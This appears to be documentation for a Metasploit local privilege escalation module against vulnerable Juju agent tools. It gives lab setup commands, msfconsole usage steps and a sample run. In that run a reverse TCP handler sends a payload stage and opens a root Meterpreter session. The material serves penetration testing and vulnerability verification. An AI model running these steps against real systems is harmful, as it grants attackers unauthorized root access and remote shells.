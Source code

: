 ## Vulnerable Application

### Description

  This module attempts to gain root privileges on Juju agent systems running the juju-run agent utility.

  Juju agent systems running agent tools prior to version 1.25.12, 2.0.x before 2.0.4, and 2.1.x before 2.1.3, provide a UNIX domain socket to manage software ("units") without setting appropriate permissions, allowing unprivileged local users to execute arbitrary commands as root.

  [Juju](https://juju.ubuntu.com/) is an open source application modeling tool designed for devops to deploy, configure, scale, and operate software on public and private clouds.

  * Homepage: https://juju.ubuntu.com/
  * Github: https://github.com/juju/juju

  This module has been tested successfully with Juju agent tools:

  * Versions 1.18.4, 1.25.5 and 1.25.9 on Ubuntu 14.04.1 LTS x86

  Deployed by Juju:

  * Versions 1.18.1-trusty-amd64 and 1.25.6-trusty-amd64 on Ubuntu 14.04.1 LTS x86_64


### Installation

  Two systems are required. The first runs Juju and the second runs the Juju agent tools.

  Ensure the client system has SSH installed and network accessible.

  The following installation instructions are for Ubuntu 14.04.1 LTS ("trusty").

  ```sh
  # List available juju packages
  apt-cache showpkg juju

  # Install a vulnerable package
  apt-get install juju-core=1.18.1-0ubuntu1

  # Generate a config file
  juju init
  ```

  Edit the `manual` section of the newly generated config file, adding the appropriate `bootstrap-host` and `bootstrap-user` for the client system, ensuring the appropriate `default-series` is set (`trusty` for Ububtu 14.x).

  ```
  manual:
    bootstrap-host: juju-client.local # Remote host
    bootstrap-user: user              # User for SSH access
    default-series: trusty            # Remote host OS series
  ```

  Switch to the `manual` environment and bootstrap the remote host specified above:

  ```sh
  juju switch manual
  juju bootstrap
  ```

  Once the bootstrapping is complete, check if it was successful. You should see a machine with ID# 0:

  ```sh
  juju stat
  ```

  Deploy any unit to the machine with ID# 0. Units can be found in the [Juju store](https://jujucharms.com/store).

  ```sh
  juju deploy zabbix-agent --to 0
  ```

  Check if it worked:

  ```sh
  watch juju stat
  ```


  Optionally, to test various versions of the juju agent utilities, the juju tools can be updated remotely. (Note: Downgrading is more difficult.)

  ```sh
  # You may or may not need to `set-env` the upstream tools URL:
  juju set-env agent-metadata-url=https://streams.canonical.com/juju/tools
  juju set-env agent-stream=proposed

  # Be careful to select a version which exists, otherwise bad things will happen.
  juju upgrade-juju --version 1.25.2
  ```


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/linux/local/juju_run_agent_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `check`
  6. Do: `run`
  7. You should get a new root session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf exploit(multi/handler) > use exploit/linux/local/juju_run_agent_priv_esc 
  msf exploit(linux/local/juju_run_agent_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/juju_run_agent_priv_esc) > run

  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 172.16.191.244:4444 
  [*] Trying 3 units...
  [+] Unit "unit-zabbix-agent-1" uses a privileged socket
  [*] Writing '/tmp/.tp9oGmPSvx' (207 bytes) ...
  [*] Sending stage (857352 bytes) to 172.16.191.130
  [*] Meterpreter session 2 opened (172.16.191.244:4444 -> 172.16.191.130:43760) at 2018-01-13 12:33:48 -0500
  [+] Deleted /tmp/.tp9oGmPSvx

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.130
  OS           : Ubuntu 14.04 (Linux 3.13.0-32-generic)
  Architecture : i686
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```

